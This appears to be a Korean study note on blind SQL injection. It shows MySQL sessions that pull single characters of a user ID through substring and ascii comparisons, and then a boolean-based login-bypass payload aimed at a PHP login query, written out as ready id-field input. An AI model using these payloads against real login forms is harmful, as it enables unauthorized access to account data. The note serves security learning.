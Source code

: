 <br>

Blind SQL Injection 특징 테스트 II

```
mysql> select substring((select u_id from member limit 0,1),2,1);
+----------------------------------------------------+
| substring((select u_id from member limit 0,1),2,1) |
+----------------------------------------------------+
| n                                                  |
+----------------------------------------------------+
1 row in set (0.00 sec)

mysql> select ascii(substring((select u_id from member limit 0,1),2,1));
+-----------------------------------------------------------+
| ascii(substring((select u_id from member limit 0,1),2,1)) |
+-----------------------------------------------------------+
|                                                       110 |
+-----------------------------------------------------------+
1 row in set (0.00 sec)

- 소,대문자 (알파벳일 확률이 높은)
ascii 코드 65보다 같거나 큰가요? 
 select ascii(substring((select u_id from member limit 0,1),2,1)) >= 65;
+-----------------------------------------------------------------+
| ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 |
+-----------------------------------------------------------------+
|                                                               1 | -> True
+-----------------------------------------------------------------+
1 row in set (0.00 sec)

ascii 코드 111보다 같거나 큰가요? 
mysql> select ascii(substring((select u_id from member limit 0,1),2,1)) >= 111;
+------------------------------------------------------------------+
| ascii(substring((select u_id from member limit 0,1),2,1)) >= 111 |
+------------------------------------------------------------------+
|                                                                0 | -> False
+------------------------------------------------------------------+
1 row in set (0.00 sec)
```

<br>

boolean -based blind injection

![2022-10-26-111블라인드](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-111블라인드.jpg)

injection vector : 참,거짓을 표시할수 있는 공간 

<br>

```
// $strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";
select * from member where u_id='' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #' and u_pass='$pw';

ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #


id : ' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #
pass : 아무거나 
```
